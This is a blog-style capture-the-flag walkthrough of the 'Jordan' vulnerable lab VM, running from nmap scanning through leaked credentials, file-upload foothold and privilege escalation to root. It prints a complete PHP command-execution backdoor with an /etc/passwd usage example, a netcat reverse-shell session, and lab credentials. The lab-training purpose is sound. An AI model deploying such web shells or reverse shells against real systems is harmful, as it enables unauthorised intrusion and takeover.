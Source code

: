 ```yaml
---
layout: post
title: Jordan
date: 26-05-2025
categories: [medium]
tags: [basic]
image: "https://images.soleretriever.com/blog/a814e02f7fdc6a5ce6a002cc734d1b2b4e9a7611-1070x760.png?quality=90&fit=clip&auto=format&width=1200"
---
```


>Hi am cyberkiddle how are you doing, ithink your going well and every thing is cool is that right?
> If not am sorry for that you will be fine.
{: .prompt-tip }


>Welcome to the next space and we need to find the price of jordan.
> This time we need to dive into hacking with more skills and not walkthroughs try first if you thing you have some thing to get help you can try to come back.
{: .prompt-tip }


![Screenshot From 2025-05-25 11-03-13](https://github.com/user-attachments/assets/ca934608-f16f-4d92-a12a-ad5c0eec0e8d)


## Scanning
```
~/Desktop/redteam/hack/jordan » nmap -sC -sV 192.168.56.106                                       cyberkid@cyberkiddle
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 19:12 EAT
Nmap scan report for 192.168.56.106
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:78:27:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
-----------------------------------------------------------------------------------------------------------------------


```
## Enumarting 
Found dumped credential in the website, from the website source codes.

```
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>



```
## Payload upload 
This is the crutial part that will give me the access to the target
![Screenshot From 2025-05-26 19-36-36](https://github.com/user-attachments/assets/533be8e1-169a-4153-b369-41ff7861456c)


```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->


```
By this we can now get the reverse shell from the payload of python from reverseshell generator. using burp suite and get the access from there.


## intial access
>After i crafted the payload to get into the system
{: .prompt-danger }


![Screenshot From 2025-05-26 19-58-12](https://github.com/user-attachments/assets/c7154137-02e7-4dc7-a0ce-9655f5d4418d)

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/jordan » nc -lnvp 1234                                                 1 ↵ cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 54410
$ whoami
whoami
www-data
$ /bin/bash -i
/bin/bash -i
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$ clear

```
## Credetials i found in using linenum
>here we need to find the valid user credentials for the user in the system and try to use them


you can use automation or any other way.

```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt
<1:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt                         
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp/lilly$ 



```
## Lateral movement.
I found the credential file named in the list and i think it was so closer to be root write? lets see.

```
 Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/etc/mysql/conf.d/credentials.txt
/etc/pam.d/common-password
/etc/ssl/private/ssl-cert-snakeoil.key
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder


```

## Gues whoami
Finally i got the right credentials lets move more to root.
```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp/lilly$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/tmp/lilly$ 

```
lets try to see if we can have lateral movemments and try to hack more

## Am Root are your happy
```
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo su
sudo su
root@Jordaninfosec-CTF01:/tmp/lilly# whoami 
whoami
root
root@Jordaninfosec-CTF01:/tmp/lilly# 



```
## Lets hack database
```
root@Jordaninfosec-CTF01:/var/www/html# cat chec	
cat check_login.php 
<?php
session_start();
$username = $_POST["user_name"];
$password = $_POST["pass_word"];
if($username ==="admin" && $password==="3v1l_H@ck3r")
{
	$_SESSION['loggedin']=true;
	header("Location: index.php");	
}
else
{
	echo "<br/><h1 style='color:red'><center>Error in username/password</center></h1>";
}
?>
root@Jordaninfosec-CTF01:/var/www/html# 

```

## Task what was the mysql login creds?
 Am glad we made it it was so simple and easy to do write how is your progress send me via email in about parten and i will see.
![Screenshot From 2025-05-26 20-54-37](https://github.com/user-attachments/assets/aae66087-6672-4a3a-979f-d0d632fb2d98)

>I think you have enjoyed and every thing gopes well thank you much.
{: .prompt-tip }


